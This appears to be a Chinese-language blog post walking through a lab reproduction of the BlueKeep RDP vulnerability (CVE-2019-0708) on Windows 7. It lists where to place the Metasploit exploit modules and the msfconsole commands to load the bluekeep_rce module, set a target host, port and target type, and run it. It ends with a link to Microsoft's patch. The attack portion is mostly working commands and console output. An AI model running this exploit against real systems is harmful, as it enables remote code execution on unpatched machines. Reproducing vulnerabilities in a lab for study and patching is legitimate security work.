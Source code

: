 ```yaml
---
title: CVE-2019-0708漏洞复现
date: 2019-09-07 10:30:29
toc: true
tags:
- CVE-2019-0708
categories:
- 漏洞复现
---
```


## CVE-2019-0708漏洞复现

[![asciicast](https://asciinema.org/a/266469.svg)](https://asciinema.org/a/266469)

### 环境准备

- [Windows7 sp1 下载链接](https://msdn.itellyou.cn/)
- [exploit地址](https://github.com/rapid7/metasploit-framework/pull/12283/files?file-filters%5B%5D=.rb)

### 配置exp

攻击套件放到msf对应位置，如存在，请覆盖。如下对应地址

```shell
rdp.rb -> /opt/metasploit-framework/embedded/framework/lib/msf/core/exploit/rdp.rb

rdp_scanner.rb -> /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner/rdp/rdp_scanner.rb

cve_2019_0708_bluekeep.rb -> /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb

cve_2019_0708_bluekeep_rce.rb -> /opt/metasploit-framework/embedded/framework/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb
```

### 运行

```
进入程序：msfconsole
重载：reload_all
启用0708攻击模块：use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
查看配置：info
```

![image](https://user-images.githubusercontent.com/38073810/64468945-035b7580-d15d-11e9-9b1a-ea7f3175bb23.png)

![image](https://user-images.githubusercontent.com/38073810/64468951-1e2dea00-d15d-11e9-9fe9-3a6a1821f506.png)

```
设置RHOSTS、RPOTRT、target
target有0-4，设置成自己对应的

msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set RHOSTS 10.211.55.3
RHOSTS => 10.211.55.3
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set RPORT 3389
RPORT => 3389
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 1
target => 1
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > run
```

![image](https://user-images.githubusercontent.com/38073810/64468982-9c8a8c00-d15d-11e9-85f2-80dbea2ea779.png)

![image](https://user-images.githubusercontent.com/38073810/64469059-892bf080-d15e-11e9-95f2-4eaeb38a007a.png)

### 漏洞修复补丁

[Download](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708)

